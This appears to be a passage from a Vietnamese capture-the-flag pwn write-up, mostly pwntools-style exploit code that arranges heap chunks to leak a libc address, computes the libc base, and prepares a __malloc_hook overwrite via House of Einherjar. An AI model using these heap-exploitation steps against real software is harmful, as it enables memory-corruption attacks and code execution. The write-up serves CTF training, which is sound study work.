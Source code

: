 ```c 
add(0x68,b'aaaa',b'aaaa') # 0
add(0x100,b'bbbb',b'bbbb') # 1
add(0x100,b'eeee',b'eeee') # 2
add(0x100,b'cccc',b'cccc') # 3
add(0x100,b'dddd',b'dddd') # 4

delete(1)
delete(2) # ubin size 0x220
delete(0)

add(0x68,b'aaaa',b'a' * 0x68) # 0
add(0xb0,b'bbbb',b'bbbb') # 1 
add(0xb0,b'eeee',b'eeee') # 2 

delete(1)
delete(3)

add(0xb0,b'bbbb',b'bbbb') # 1
show(2)

p.recvuntil(b'Secret : ')
libc_leak = u64(p.recv(6)+b'\0\0')
libc.address = libc_leak - 0x3c3b78
info('libc leak: ' + hex(libc_leak))
info('libc base: ' + hex(libc.address))
```

# Ow Malloc_hook 
- tại sao ko phải là free_hook thì đọc cái này 
https://github.com/gookoosss/CTF/blob/main/PWN/training/heap/Use%20After%20Free%204.md
- đầu tiên ta bỏ qua các vùng heap đã sử dụng ở trên để tránh các bug ko đáng có 

```c 
delete(1)
delete(4) 
delete(0)

add(0x68,b'aaaa',b'aaaa') # 0
add(0x100,b'bbbb',b'bbbb') # 1
add(0x100,b'eeee',b'eeee') # 3
add(0x100,b'cccc',b'cccc') # 4
add(0x100,b'dddd',b'dddd') # 5 

add(0x68,b'aaaa',b'aaaa') # 6
add(0x100,b'bbbb',b'bbbb') # 7
add(0x100,b'eeee',b'eeee') # 8
add(0x100,b'cccc',b'cccc') # 9
add(0x100,b'dddd',b'dddd') # 10 
# bypass used chunk
```
- bây giờ làm tương tự như trên để sử dụng House of Enherjar 
